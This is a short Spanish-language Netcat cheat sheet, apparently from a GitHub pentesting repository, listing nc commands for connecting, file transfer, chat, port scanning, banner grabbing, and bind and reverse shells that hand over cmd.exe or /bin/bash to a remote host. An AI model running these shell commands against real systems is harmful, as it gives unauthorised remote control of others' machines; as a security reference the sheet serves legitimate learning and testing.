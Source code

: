 # Netcat Cheat Sheet

#### Conectarnos a un puerto de un host

- `nc -nv <IPAddress> <Port>`: Conexión a un host.

#### Transferir un archivo

- `nc -nvlp <Port> > output.txt`: Host a recibir el archivo en el puerto especificado.

- `nc -nv <IPAddress> <Port> < input.txt`: Host que envia el archivo al host destino.

#### Chatear entre hosts

- `nc -nvlp <Port>`: Escuchando la conexión.

- `nc -nv <IPAddress> <Port>`: Host se conecta al host al puerto abierto.

#### Bind Shell (Windows)

- `nc -nvlp <Port> -e cmd.exe`: Escuchando la conexión.

- `nc -nv <IPAddress> <Port>`: Conexión a la shell.

#### Bind Shell (Linux)

- `nc -nvlp <Port> -e /bin/bash`: Escuchando la conexión.

- `nc -nv <IPAddress> <Port>`: Conexión a la shell.

#### Reverse Shell (Windows)

- `nc -nvlp <Port>`: Escuchando la conexión.

- `nc -nv <IPAddress> <Port> -e cmd.exe`: Conexión al host y mandamos la shell.

#### Reverse Shell (Linux)

- `nc -nvlp <Port>`: Escuchando la conexión.

- `nc -nv <IPAddress> <Port> -e /bin/bash`: Conexión al host y mandamos la shell.

#### Escanear Puertos

- `nc -vz <IPAddress> <Port-Range>`: Escanear la IP del host con el rango de puertos.

#### Banner Grabbing

- `echo "" | nc -nv -w1 <IPAddress> <Port>`: Banner Grabbing.

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)